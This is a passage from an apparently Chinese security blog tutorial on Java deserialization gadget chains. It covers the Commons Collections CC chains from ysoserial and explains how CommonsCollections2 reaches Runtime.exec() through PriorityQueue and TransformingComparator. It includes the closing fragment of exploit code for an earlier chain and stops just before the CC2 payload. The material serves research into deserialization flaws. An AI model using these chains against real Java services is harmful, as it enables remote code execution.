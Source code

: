 ```java
        hashtable.put(lazyMap2, 2);

        Reflection.setFieldValue(transformerChain, "iTransformers", transformers);

        lazyMap2.remove("yy"); // 因为 put 第二次的时候会进入 equals, 然后调用 m.get("yy"), LazyMap 的懒加载最终会将 yy 也放入 map 中, 所以要把 innerMap2 中的 yy 删掉

        Serialization.test(hashtable);
    }
}
```

## CommonsCollections2

因为目前 commons-collections 有两个大版本 3 和 4, 而 cc2 cc4 这两条链就是 ysoserial 给 commons-collections4 准备的

当然其它 cc 链经过简单的修改之后也能够在 commons-collections4 中使用

以下是 cc2 的利用链

```
Gadget chain:
    ObjectInputStream.readObject()
        PriorityQueue.readObject()
            ...
                TransformingComparator.compare()
                    InvokerTransformer.transform()
                        Method.invoke()
                            Runtime.exec()
```

先看 PriorityQueue 的 readObject 方法

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231635386.png)

跟进 heapify()

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231635036.png)

继续跟进 shiftDown()

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231636059.png)

这里会判断是否存在 comparator (通过构造方法传入), 存在的话则会进入 siftDownUsingComparator()

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231637148.png)

在方法中会调用 comparator 实现的 compare 方法来比较 queue 中的元素, 而在 commons-collections4 中存在一个 TransformingComparator, 它的 compare 会调用 transform 方法

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231638491.png)

到这里思路以及很明显了, payload 如下
